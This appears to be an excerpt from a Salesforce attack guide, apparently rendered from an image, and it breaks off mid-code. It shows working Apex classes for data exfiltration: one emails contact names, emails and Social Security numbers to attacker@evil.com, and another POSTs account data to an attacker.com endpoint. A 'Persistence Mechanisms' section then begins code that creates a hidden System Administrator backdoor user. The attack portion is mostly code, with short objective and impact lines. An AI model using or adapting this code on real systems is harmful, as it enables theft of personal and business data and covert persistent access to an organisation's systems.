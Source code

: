 ```python
            break
    
    return extracted_data
```

**Alternative Exfiltration Channels**:
```apex
// Email-based exfiltration
public class EmailExfiltration {
    public static void exfiltrateViaEmail() {
        List<Contact> sensitiveContacts = [SELECT Id, Name, Email, SSN__c FROM Contact LIMIT 100];
        
        String csvData = 'Name,Email,SSN\n';
        for (Contact c : sensitiveContacts) {
            csvData += c.Name + ',' + c.Email + ',' + c.SSN__c + '\n';
        }
        
        Messaging.SingleEmailMessage email = new Messaging.SingleEmailMessage();
        email.setToAddresses(new String[]{'attacker@evil.com'});
        email.setSubject('Data Export');
        email.setPlainTextBody(csvData);
        
        Messaging.sendEmail(new Messaging.SingleEmailMessage[]{email});
    }
}

// HTTP callout exfiltration
public class HttpExfiltration {
    @future(callout=true)
    public static void exfiltrateViaHttp() {
        List<Account> accounts = [SELECT Id, Name, AnnualRevenue FROM Account LIMIT 100];
        
        String jsonData = JSON.serialize(accounts);
        
        HttpRequest req = new HttpRequest();
        req.setEndpoint('https://attacker.com/collect');
        req.setMethod('POST');
        req.setBody(jsonData);
        
        Http http = new Http();
        HttpResponse res = http.send(req);
    }
}
```

**Impact**: Intellectual property theft, compliance violations, competitive advantage loss.

### 2. Persistence Mechanisms

**Objective**: Techniques for maintaining access to compromised systems.

**Backdoor User Creation**:
```apex
public class PersistenceManager {
    public static void createBackdoorUser() {
        // Create hidden administrative user
        Profile adminProfile = [SELECT Id FROM Profile WHERE Name = 'System Administrator' LIMIT 1];
        
        User backdoorUser = new User(
            Username = 'maintenance@company-domain.com',
            Email = 'maintenance@company-domain.com',
            FirstName = 'System',
            LastName = 'Maintenance',
            Alias = 'sysmaint',
```